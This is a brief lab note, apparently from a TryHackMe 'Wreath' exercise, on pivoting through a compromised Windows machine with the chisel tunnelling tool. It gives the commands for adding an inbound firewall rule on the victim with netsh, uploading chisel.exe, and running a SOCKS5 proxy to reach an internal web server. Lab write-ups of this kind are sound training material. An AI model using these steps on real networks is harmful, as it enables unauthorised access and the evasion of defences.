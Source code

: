 
We have two immediate options for this: Chisel, and Plink but but but i got a new tool recommendation today so will try to do pivoting with it rather than these tools.

So for now i will go with chisel forwards proxy as we have used the sshuttle already to connect with the git web server.

```
netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT
```

```
netsh advfirewall firewall add rule name="Chisel-Sardarji" dir=in action=allow protocol=tcp localport=47000
```
![[Pasted image 20240101002020.png]]


```
upload /root/TryHackMe/Wreath/chisel.exe
```
Will simply upload the chisel.exe on the victim so that we can start the server on it and listen the traffic on our side which is the attacker.

And we already have opened the firewall port on the victim machine so that we can start the proxy

```
./chisel_win.exe server -p 47000 --socks5
```
![[Pasted image 20240101003439.png]]

```
chisel client 10.200.101.150:47000 9090:socks
```
![[Pasted image 20240101003508.png]]


So finally able to connect 
```
http://10.200.101.100/
```
